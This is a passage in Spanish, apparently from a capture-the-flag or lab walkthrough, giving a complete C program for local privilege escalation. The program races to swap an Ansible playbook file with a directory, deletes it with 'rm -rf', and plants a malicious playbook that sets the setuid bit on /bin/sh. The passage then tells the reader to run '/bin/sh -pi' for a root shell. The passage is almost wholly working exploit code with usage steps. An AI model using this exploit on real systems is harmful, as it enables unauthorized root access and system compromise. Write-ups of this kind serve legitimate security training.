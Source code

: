 Sólo necesitamos crear un programa compilado rápido que sea lo suficientemente eficiente para cronometrar esto correctamente. El siguiente programa debería funcionar bien:

```bash
// gcc -static ./privesc2.c -o privesc2
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>

#define PLAYBOOK_PATH "/opt/automation/tasks/playbook_1.yml"
#define PLAYBOOK "- hosts: localhost\n"\
                 "  tasks:\n"\
                 "  - name: pwn\n"\
                 "    ansible.builtin.shell: chmod +s /bin/sh\n"

void replace() {
  struct stat sb;

  while(1) {
    if (stat(PLAYBOOK_PATH, &sb) != 0) {
      if (mkdir(PLAYBOOK_PATH, 0700) == 0) {
        puts("Swapped with directory!");
        return;
      }
      puts("Fail!");
      sleep(110);
    }
    usleep(100);
  }
}

void plant() {
  FILE *file;
  if (file = fopen(PLAYBOOK_PATH, "w")) {
    fprintf(file, "%s", PLAYBOOK);
    fclose(file);
  }
}

int main(int argc, char* argv[]) {
  replace();
  sleep(10);
  system("rm -rf /opt/automation/tasks/playbook_1.yml");
  plant();
  puts("Done!");
  return 0;
}
```

Ejecutar el ejecutable compilado en el objetivo debería reemplazar el archivo con nuestro playbook malicioso después de un par de minutos. A continuación, esperamos otro par de minutos y ejecutamos /bin/sh -pi para generar un intérprete de comandos raíz.